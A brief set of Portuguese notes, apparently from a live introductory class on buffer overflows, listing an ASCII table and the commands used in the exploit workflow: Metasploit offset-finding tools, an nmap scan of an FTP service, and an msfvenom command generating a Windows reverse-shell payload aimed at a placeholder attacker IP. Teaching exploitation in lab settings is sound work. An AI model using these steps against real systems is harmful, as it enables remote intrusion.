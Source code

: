 # Live - Buffer Overflow, uma introdução ao assunto

## Tabela ASCII
Char  Dec  Oct  Hex   Linux
(nl)   10 0012  x0a   \n
(cr)   13 0015  x0d   \r
A      65 0101  x41
B      66 0102  x42
C      67 0103  x43

## Comandos utilizados

Gerando texto único para identificação da posição do EIP
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2700

Checando a posição (offset) do EIP
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 39694438

Conectando no rdesktop
rdesktop -u usuario -p senha -g 65% -x m endereco

Buscando informações do serviço
nmap -Pn -p21 -A 192.168.15.150

Gerando payload do shell reverso
msfvenom -p windows/shell_reverse_tcp LHOST=IP_atacante LPORT=Porta_atacante -b "\x00\x0a\x0d\x40" -a x86 -f python



